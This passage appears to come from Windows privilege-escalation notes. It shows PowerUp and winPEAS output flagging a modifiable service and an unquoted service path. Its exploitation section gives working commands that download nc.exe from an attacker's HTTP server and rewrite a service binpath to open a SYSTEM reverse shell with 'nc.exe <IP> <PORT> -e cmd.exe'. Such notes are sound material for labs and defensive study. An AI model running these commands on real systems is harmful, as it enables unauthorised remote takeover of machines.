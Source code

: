 or

```
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking service permissions...

ServiceName   : daclsvc
Path          : "C:\Program Files\DACL Service\daclservice.exe"
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'daclsvc'
CanRestart    : True
```

or

```
winPEAS.exe

[+] Interesting Services -non Microsoft-(T1007)

daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
	YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles

[+] Modifiable Services(T1007)
	LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
	daclsvc: WriteData/CreateFiles
```

##### Exploitation

```
# Attacker
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/nc.exe', '.\nc.exe')
sc config <SERVICENAME> binpath= "<PATH>\nc.exe <IP> <PORT> -e cmd.exe"
sc start <SERVICENAME>
or 
net start <SERVICENAME>
```

#### Unquoted service paths

##### Detection

```
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking for unquoted service paths...

ServiceName    : unquotedsvc
Path           : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
ModifiablePath : @{Permissions=AppendData/AddSubdirectory; ModifiablePath=C:\;IdentityReference=NT AUTHORITY\Authenticated Users}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'unquotedsvc' -Path <HijackPath>
CanRestart     : True

ServiceName    : unquotedsvc
Path           : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
ModifiablePath : @{Permissions=System.Object[]; ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'unquotedsvc' -Path <HijackPath>
CanRestart     : True
```